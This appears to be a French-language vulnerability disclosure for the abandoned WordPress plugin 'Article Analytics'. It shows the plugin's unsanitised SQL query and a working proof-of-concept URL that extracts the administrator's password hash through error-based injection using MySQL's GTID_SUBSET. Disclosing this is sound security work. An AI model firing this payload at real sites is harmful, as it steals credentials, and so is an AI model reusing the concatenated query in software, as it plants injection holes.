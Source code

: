 ```yaml
---
title: "Injection SQL dans le plugin Wordpress Article Analytics"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [Article Analytics](https://wordpress.org/plugins/article-analytics/) a la description suivante :

> Article analytics provides digital analytics of the visitors who read your posts.
> The following parameters can be configured:
> 
> 1) Analysis period
>  
> 2) Type of audience (all visits, authenticated visits, anonymous visits)
> 
> 3) Include owner visits for statistics;

Ce plugin est en version 1.0 et la dernière activité date d'il y a 9 ans déjà.

## La vulnérabilité

Étonnement personne ne semble avoir remarqué la vulnérabilité jusqu'à présent.

Dans `article-analytics.php`, l'auteur hooke la fonction `pre_get_posts` de Wordpress :

```php
add_filter('pre_get_posts', 'article_analytics_visit_article');
```

La fonction `article_analytics_visit_article` est alors appelée avant le fonctionnement normal de wordpress.

D'après [la documentation](https://developer.wordpress.org/reference/hooks/pre_get_posts/) :

> Fires after the query variable object is created, but before the actual query is run.

```php
function article_analytics_visit_article($wp_query) {
    $query = $wp_query->query;
    $post_id = (isset($query['p'])) ? $query['p'] : NULL;

    if (!$post_id) {
        return;
    }
    global $wpdb;
    $current_user_id = get_current_user_id();
    $sql = "INSERT INTO " . WP_ARTICLE_ANALITICS_TABLE . " SET user_id=" . $current_user_id . ", post_id=" . $post_id;
    $result = $wpdb->get_results($sql);
}
```

La variable `$post_id` (paramètre `p` de l'URL) n'est pas suffisamment vérifiée et permet l'injection de code SQL.

Le PoC suivant permet d'extraire le hash du premier utilisateur du Wordpress (l'administrateur) :

`http://localhost:8000/?p=1%20AND%20GTID_SUBSET%28CONCAT%280x686173683a%2C%28SELECT%20user_pass%20FROM%20%60wordpress%60.wp_users%20ORDER%20BY%20ID%20LIMIT%201%2C1%29%29%2C4001%29`

Il en résulte la requête SQL suivante :

```sql
INSERT INTO wp_article_analytics_info SET user_id=0, post_id=1 AND GTID_SUBSET(CONCAT(0x686173683a,(SELECT user_pass FROM `wordpress`.wp_users ORDER BY ID LIMIT 1,1)),4001)
```

L'utilisation de la fonction MySQL [GTID_SUBSET](https://dev.mysql.com/doc/refman/8.0/en/gtid-functions.html#function_gtid-subset) permet l'exfiltration du hash via une erreur Wordpress :

`WordPress database error: [Malformed GTID set specification 'hash:$P$BLGng0fIZc6vbUELsDJDRKpYO9Jb/e0'.]`

